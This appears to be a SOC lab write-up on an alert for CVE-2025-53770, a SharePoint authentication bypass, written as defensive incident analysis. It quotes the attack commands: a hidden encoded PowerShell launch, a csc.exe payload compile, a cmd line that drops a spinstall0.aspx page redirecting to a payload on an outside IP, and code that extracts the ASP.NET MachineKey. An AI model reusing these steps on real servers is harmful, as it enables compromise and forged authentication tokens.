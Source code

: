 ```yaml
---
title: CVE‑2025‑53770 SharePoint
description: CVE‑2025‑53770 SharePoint
date: 2025-07-26
summary: A look at a SOC alert for CVE‑2025‑53770 SharePoint
categories:
  - Labs
  - LetsDefend
  - SOC Labs
---
```

![featured.jpg](featured.jpg)

# CVE‑2025‑53770
*Source: [SANS](https://www.sans.org/blog/critical-sharepoint-zero-day-exploited-what-you-need-to-know-about-cve-2025-53770), [CISA](https://www.cisa.gov/news-events/alerts/2025/07/20/update-microsoft-releases-guidance-exploitation-sharepoint-vulnerabilities), [LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/Csc/)*

## What is the vulnerability?

**CVE‑2025‑53770 | SharePoint vulnerability**
<br>The vulnerability affects on-prem instances (2016, 2019, Subscription editions). It bypasses authentication by sending a header request to *ToolPane.aspx*, where the referrer is set to *SignOut.aspx*. Post-exploitation involves writing a payload to *spinstall0.aspx* which extracts cryptographic key material.

## What is the alert?

![alert.png](images/alert.png)

>**Alert Trigger Reason**: *Suspicious unauthenticated POST request targeting ToolPane.aspx with large payload size and spoofed referer indicative of CVE-2025-53770 exploitation.*

It looks like the exploitation has been successful. We can see an unauthenticated POST request against ToolPane.aspx, and Signout.aspx in the referrer header. A large payload size to note here.


>**Source IP Address:** 107.191.58.76
- This IP looks to be associated with the vulnerability, in the wild.

![ipinfo.png](images/ipinfo.png)

## Summary
We have a true positive exploit of CVE‑2025‑53770. The adversary has successfully exploited the vulnerability and post-exploitation phase is evident. 

w3wp.exe was used to spawn an encoded powershell script. This script facilitates the extract of the ASP.NET MachineKey. LOTL was observed, with csc.exe being used to compile a malicious *payload.exe*. A SharePoint page *spinstall0.aspx* was created which loads the malicious payload.

## Analysing the endpoint
![endpoint.png](images/endpoint.png)
> OS: Windows Server 2019

-  We are vulnerable.


## Timeline

The adversary begins by sending a crafted unauthenticated payload *(Code 1)* via POST. The server executes the payload via powershell, triggered by w3wp.exe (IIS process).

**Processes**

| Time     | Process        | Overview                                               | Child Process  |
| -------- | -------------- | ------------------------------------------------------ | -------------- |
| 13:07:11 | w3wp.exe       | Process that supports SharePoint                       | powershell.exe |
| 13:07:24 | powershell.exe | Run Base64 code (Code 1).                              | csc.exe        |
| 13:07:27 | csc.exe        | Compile payload.cs as payload.exe (Code 2)             | cmd.exe        |
| 13:07:29 | cmd.exe        | Write malicious spinstall0.aspx to SharePoint (Code 3) | powershell.exe |
| 13:07:34 | powershell.exe | Gather machine key (Code 4)                            |                |

### Terminal History
![terminal.png](images/terminal.png)

#### Code 1
Flags: 
`-nop, -w hidden, -e`
- No profile
- Hide the PowerShell window
- EncodedCommand

After decoding the Base64 commands we get:
![decoded.png](images/decoded.png)

On page load, the script is set to execute.

We can gather the following:
```
%@ Import Namespace="System.Diagnostics" %
%@ Import Namespace="System.IO" %
script runat="server" language="c#"
```

- C# execution
- ASP.NET 

``` 
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
Response.Write(cg.ValidationKey+"|"+cg.Validation+"|"+cg.DecryptionKey+"|"+cg.Decryption+"|"+cg.CompatibilityMode);
```

- Gathers and outputs machine keys from Web.Configuration
	- ValidationKey
	- DecryptionKey
- These crypto keys are used to authenticate user sessions
	- Now the adversary can forge valid auth. tokens 

#### Code 2
```
"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /out:C:\Windows\Temp\payload.exe C:\Windows\Temp\payload.cs
```

- csc.exe is a binary file used by .NET to compile C#, this is a LOTL
- Malicious code payload.cs is compiled as payload.exe

#### Code 3
```
"C:\Windows\System32\cmd.exe" /c echo <form runat=\"server\"> <object classid=\"clsid:ADB880A6-D8FF-11CF-9377-00AA003B7A11\"><param name=\"Command\" value=\"Redirect\"> <param name=\"Button\" value=\"Test\"> <param name=\"Url\" value=\"http://107.191.58.76/payload.exe\"></object></form> > C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx`
```

- Run command via cmd
- Drop redirector page spinstall0.aspx to SharePoint Layouts directory
- This triggers a redirect to download payload.exe from the adversary's infrastructure

#### Code 4
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"
```
- Use Powershell to gather Machine Key






